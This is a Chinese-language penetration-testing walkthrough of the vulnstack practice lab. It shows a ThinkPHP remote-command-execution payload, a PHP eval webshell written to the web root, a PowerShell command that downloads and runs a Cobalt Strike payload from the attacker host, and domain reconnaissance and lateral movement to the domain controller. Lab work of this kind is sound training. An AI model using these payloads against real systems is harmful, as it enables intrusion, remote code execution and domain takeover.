## 0x01 实验环境

**目标端**

> **win7**
>
> IP1:	192.168.135.150	NAT模式，模拟外网
> IP2:	192.168.138.136	仅主机模式，模拟内网
>
> 账号信息：
> sun\leo	123.com
> sun\Administrator	dc123.com

> **Server2008**
> IP:	192.168.138.138	仅主机模式，模拟内网
>
> 账号信息：
> sun\admin	2020.com

**攻击端**

> windows7	192.168.135.133
>
> kali		       192.168.135.130



参见 http://vulnstack.qiyuanxuetang.net/vuln/detail/7


## 0x02 渗透测试

win7启动phpstudy，注意leo权限不够，需要输入administrator账号来执行



需要关闭防火墙，不然访问不了目标机

### 1、信息搜集

使用nmap获取目标端口开放情况

```powershell
nmap -sT -Pn 192.168.135.150
```



开放了80、3306等

访问一下80端口



### 2、漏洞利用

看到这个熟悉的页面，用的thinkphp框架，可以尝试用网上公开的exp打一下

1、输入错误信息，获取 thinkphp 版本



2、找到此版本漏洞的poc  可以命令执行

```powershell
http://192.168.135.150/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
```



3、查看当前路径

```powershell
http://192.168.135.150/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=powershell pwd
```



4、写一句话木马 getshell

```powershell
http://192.168.135.150/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo ^<?php @eval($_POST['cmd']); ?^> > C:\phpStudy\PHPTutorial\WWW\public\shell.php 
```

5、蚁剑连接

http://192.168.135.150/shell.php	密码：cmd




6、查看基本信息

使用了双网卡



已知操作系统是win7，打了3个补丁，有域环境



蚁剑的shell操作不太方便，连到cobaltstrike进行渗透


## 0x03 内网渗透

### 1、目标主机上线

01、配置cs

kali开启cs服务

```powershell
./teamserver 192.168.135.130 admin
```



攻击机windows7连接cs



02、制作内存马

设置监听器



生成木马



03、复制命令在蚁剑里执行

`powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.135.130:80/a'))"`



04、主机上线

administrator成功上线



这里由于是administrator管理员权限，我也就没有再继续提权

设置成交互模式  `sleep 0`

5、读取密码



### 2、域内信息搜集

```powershell
net group "domain admins" /domain 查询域管理员列表
net group "domain controllers" /domain 查看域控制器(如果有多台)
net time /domain 判断主域，主域服务器都做时间服务器
```



找到域控主机为DC，IP地址为192.168.138.138

做一下端口扫描和主机存活探测



再扫下192.168.138.0/24段



发现192.168.138.138主机存活，且开放445端口

结合上面信息搜集，192.168.138.138为域控

### 3、获取域控权限

尝试域内使用pth渗透，应该是目标不出网，无果



新建一个smb的监听





域控成功上线



域内权限维持就不再写了，见《vulnstack1靶机笔记》


参考：

https://www.freebuf.com/column/231458.html